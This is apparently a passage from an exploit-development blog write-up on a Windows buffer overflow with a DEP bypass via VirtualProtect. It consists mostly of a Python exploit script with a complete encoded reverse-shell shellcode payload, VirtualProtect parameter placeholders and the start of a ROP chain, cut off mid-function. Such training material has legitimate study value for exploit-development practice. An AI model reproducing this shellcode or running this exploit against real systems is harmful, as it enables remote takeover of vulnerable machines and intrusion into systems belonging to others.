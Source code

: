 And here we have the reverse shell

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP-VirtualProtect/2023-01-31-Buffer%20Overflow-DEP-VirtualProtect%2012:10:52.png)

```py
# 0x4rt3mis
# DEP Bypass
import socket
import sys
from struct import pack

total = 2500

shellcode =  b""
shellcode += b"\xda\xdd\xd9\x74\x24\xf4\x5d\x31\xc9\xb1\x5e"
shellcode += b"\xbf\x85\xf0\x6d\xbf\x83\xed\xfc\x31\x7d\x15"
shellcode += b"\x03\x7d\x15\x67\x05\xe4\x5a\xe6\x22\x07\x5d"
shellcode += b"\x17\x55\xd9\x57\x83\x21\x6b\x58\xc0\x40\x80"
shellcode += b"\x13\xa0\xb0\x13\x7d\x44\x42\x5d\xa2\xdf\x62"
shellcode += b"\xc4\x9b\x90\x92\x7d\x2e\xc5\xa5\x23\x47\x6c"
shellcode += b"\xae\x30\x03\x66\x5b\x39\x53\x89\xc4\x4d\xef"
shellcode += b"\x49\x8e\x2e\xf3\xc9\x91\x11\x78\x66\x8a\x26"
shellcode += b"\x38\x58\xab\xe0\x4e\xdd\x57\xf3\x67\x94\x2c"
shellcode += b"\xb1\x7b\xad\x07\xb2\x85\x6f\x56\x02\x1c\x73"
shellcode += b"\x35\x06\xdf\xff\x41\xc6\x2a\xf2\x4c\x0a\x41"
shellcode += b"\xf8\x74\xde\xb2\x24\xfe\x01\x31\x73\x24\xbf"
shellcode += b"\x9c\x1d\xaf\xb3\x6a\x6a\xf8\xd7\x6b\xb6\x8c"
shellcode += b"\xec\xe1\x47\x4b\x65\xb1\x63\x77\x17\xf9\x03"
shellcode += b"\x04\x6e\x48\xab\xf5\xc4\xb7\xc2\x4f\xf7\xdf"
shellcode += b"\x5a\x01\xf9\xf3\x9d\xcb\x01\x85\x24\xe0\x61"
shellcode += b"\xe7\x58\xbb\x64\xf8\xf1\xb8\x01\x43\xe1\xf1"
shellcode += b"\xd1\x2a\xa9\x9e\xbd\xe2\xa1\x6d\x0c\x2d\x55"
shellcode += b"\xfa\x07\x42\xa7\xa5\xb3\x5b\x92\x4d\xb5\x67"
shellcode += b"\x74\xa5\x28\x9b\xbf\xc6\xe6\x60\x36\x7d\x15"
shellcode += b"\x01\x91\x77\xd0\x7c\xde\xdd\x1e\xf6\x65\xfe"
shellcode += b"\x76\x04\xdf\xd3\x35\xeb\x4a\x28\xb3\x51\x50"
shellcode += b"\xb9\x23\x68\x51\xdf\x1a\x1b\x64\x09\x95\x4c"
shellcode += b"\x57\x89\x43\xd5\x95\x0b\xdc\xda\xcc\x17\xed"
shellcode += b"\xe4\xbe\x77\x5d\x55\x38\x28\x71\x90\x14\x88"
shellcode += b"\xd9\x65\xc1\x28\x53\x5f\xd8\xe8\x33\x30\x72"
shellcode += b"\x29\x1b\xca\x4e\xcf\xe4\x2a\xf5\xd1\xf5\x3d"
shellcode += b"\x6f\x51\x35\x3f\x3f\x01\xe9\x71\x7f\xf9\x45"
shellcode += b"\x22\x2f\xfe\x75\x92\x98\xa8\x8a\x47\x02\x03"
shellcode += b"\x23\x3e\x7b\x6b\x9b\xee\xcb\xeb\x2d\xc6\x9a"
shellcode += b"\x6c\x4c\x10\x8c\x5d\x8f\xf0\x7c\xce\x5f\xa1"
shellcode += b"\x2c\xbe\x0f\x11\x9c\x8e\xf4\xc1\x48\xb0\x4c"
shellcode += b"\x7a\xf7\xd4\x52\x8a\x2f\xb8\xc4\x16\xa2\x5d"
shellcode += b"\x3b\x8d\x67\x17\xa3\x1c\x5e\x41\x9d\xcf\x63"
shellcode += b"\xa7\x15\xbf\x34\x86\x65\x10\xea\xb8\x25\xc1"
shellcode += b"\x42\x69\xf6\xb2\x02\x76\xa3\x2c\x93\x41\x1d"
shellcode += b"\x27\x2c\xae\xcb\xa7"

virtual_protect_placeholder = pack("<L", (0x45454545)) # KERNEL32!VirtuaProtect
virtual_protect_placeholder += pack("<L", (0x46464646)) # Shellcode Return Addres
virtual_protect_placeholder += pack("<L", (0x47474747)) # Shellcode Address
virtual_protect_placeholder += pack("<L", (0x48484848)) # dwSize
virtual_protect_placeholder += pack("<L", (0x49494949)) # flNewProtect
virtual_protect_placeholder += pack("<L", (0x51515151)) # lpflOldProtect

def create_rop_chain():
        rop_gadgets = [
                ##############
                # -> Make ESP equal to ECX (-20)
                ##############
```